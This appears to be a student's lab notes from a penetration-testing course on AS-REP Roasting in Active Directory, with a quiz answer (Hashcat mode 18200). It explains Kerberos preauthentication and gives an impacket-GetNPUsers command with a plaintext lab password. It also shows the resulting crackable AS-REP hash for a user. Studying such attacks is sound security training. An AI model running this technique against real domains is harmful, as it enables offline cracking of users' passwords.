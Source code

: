 Topics: AS-REP Roasting
Questions 1
Follow the steps outlined in this section to obtain the plaintext password of dave on Windows and Kali by performing AS-REP Roasting. What is the correct Hashcat mode to crack AS-REP hashes?
# Answer
18200

# The first step of the authentication process via Kerberos is to send an AS-REQ. Based on this request, the domain controller can validate if the authentication is successful. If it is, the domain controller replies with an AS-REP containing the session key and TGT. This step is also commonly referred to as Kerberos preauthentication1 and prevents offline password guessing.

# Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as AS-REP Roasting. AD user account option Do not require Kerberos preauthentication is disabled, meaning that Kerberos preauthentication is performed for all users. However, it is possible to enable this account option manually. In assessments, we may find accounts with this option enabled as some applications and technologies require it to function properly. 

# On Kali, we can use impacket-GetNPUsers3 to perform AS-REP roasting. We'll need to enter the IP address of the domain controller as an argument for -dc-ip, the name of the output file in which the AS-REP hash will be stored in Hashcat format for -outputfile, and -request to request the TGT.

sudo impacket-GetNPUsers -dc-ip 192.168.163.70  -request -outputfile hashes.asreproast corp.com/pete
Password: Nexus123!
...
dave  CN=Development Department,DC=corp,DC=com  2022-09-07 09:54:57.521205  2024-05-19 06:21:28.544212  0x410200 
$krb5asrep$23$dave@CORP.COM:f26374c7e72d17ae74a76a46a2228b36$6a5f16a344972b05b04f9a48eb66ede004e357b4d6d4374947d0cd637b5b0d952154937ff3369ff29b1c9fdf55cf801ffe6020823cdaf26fb6a108637f775951fbb80b6a27bd686ea162d16e7af1a1510570c0df5ed8ed0f34ae3057d0ec247488a1d95ae3d358a95d336a99d28b4b5e135d457675dadd4bc087cc77622284ef561e861fd233d7f49bb4e67029d46e872d92319b84c8d73c4536b8991ae9d483d9af24d029eb4bd99bf9416cac6f2a7c1d195c501fb53d59d8354f8fec7ca50a3237758c0a6086ee38d014abdd6c26d59421be0dad535f7fd19f43f36b524a3a3eb3760a
...
